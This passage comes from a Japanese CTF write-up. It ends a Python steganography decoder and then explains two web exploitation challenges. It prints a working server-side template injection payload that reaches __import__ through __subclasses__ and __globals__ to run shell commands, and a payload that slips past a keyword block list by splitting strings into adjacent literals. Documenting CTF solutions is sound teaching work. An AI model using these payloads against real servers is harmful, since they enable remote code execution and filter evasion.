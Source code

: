 ```python
      px = img.getpixel((j, 0))
      for k in range(4):
        bits <<= 1
        bits |= px[k] & 1
  ba = bytearray()
  while bits > 0:
    ba.append(bits % 256)
    bits //= 256
  ba.reverse()
  print(b64decode(ba))

if __name__ == '__main__':
  # lsb()
  main()
```

---

## SSTI1
(Web Exploitation)

サーバーサイドテンプレートインジェクション (SSTI) についてググって、いろいろ試すと、Python のコードを実行できることがわかる。\
実行コンテキスト(?) のせいで `print` などの組み込み関数や `import` 文が使えないが、これはなんやかんや迂回できる。私は SECCON CTF 13 で知った方法をベースに考えたが、このほかにもいろいろバリエーションがあるらしい。お好みの方法で解けるだろう。

ペイロード例
{% raw %}
`{{ [].__class__.__base__.__subclasses__()[110].__init__.__globals__['__builtins__']['__import__']('subprocess').check_output(['bash', '-c', 'cat flag']) }}`
{% endraw %}

初見の人がおさえておくべき要点は
- `__globals__['__builtins__']` からお馴染みの `print` などが使えるので、`__globals__` を探すこと
- `__import__` 関数でモジュールのインポートができること

---

## 3v@l
(Web Exploitation)

SSTI1 に引き続き Python のコードを実行できる脆弱性があるが、 `os`, `ls`, `cat`, `..` など、いくつか NG ワードが設定されている。\
しかし、Python の文字列リテラルには、`'o' 's'` が `'os'` になるように、連続するリテラルは結合される仕様がある。これで NG ワード設定を突破できる。\
`ls` で適当に調べると `../flag.txt` を発見できる。これを `cat` したいところだが、NG ワードに引っかからないよう、`cd ..` してから `cat flag.txt` という処理にする。

ペイロード例\
`__import__("subprocess").check_output(["bash", "-c", "cd" " " "." "." ";" "c" "a" "t" " " "flag" "." "txt"])`

---

## n0s4n1ty 1
(Web Exploitation)
